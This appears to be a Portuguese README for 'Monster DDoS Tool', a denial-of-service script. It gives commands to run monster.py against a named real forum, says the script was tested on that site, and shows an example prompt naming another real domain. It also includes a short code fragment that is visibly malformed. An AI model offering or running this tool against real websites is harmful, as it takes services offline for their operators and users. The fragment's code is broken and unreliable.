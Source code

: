 # Monster-DDoS-Tool
Monster DDoS Tool Denial of Service 2.0

**Comandos**

cd desktop
cd monster 
monster.py https://forum.xpzone.net

Site que foram testado o script monster.py
http://forum.xpzone.net

# lista useragent by Trote
# lista keyword by Trote
# lista robots_bots coded Trote

**Adicionei esse codigo no script**
def robots_list():
	
  global robots_bots
	
  robots_bots.append('Allow: /<<<<< paginas do site')
return(robots_bots)

Accept-Language', 'pt-BR,pt;q=0.8
foi ativado o https no script

-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-
     Monster DDoS Tool Denial of Service 2.0'
     Digite [URL] Exemplo: http://pmdb.org.br'
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-
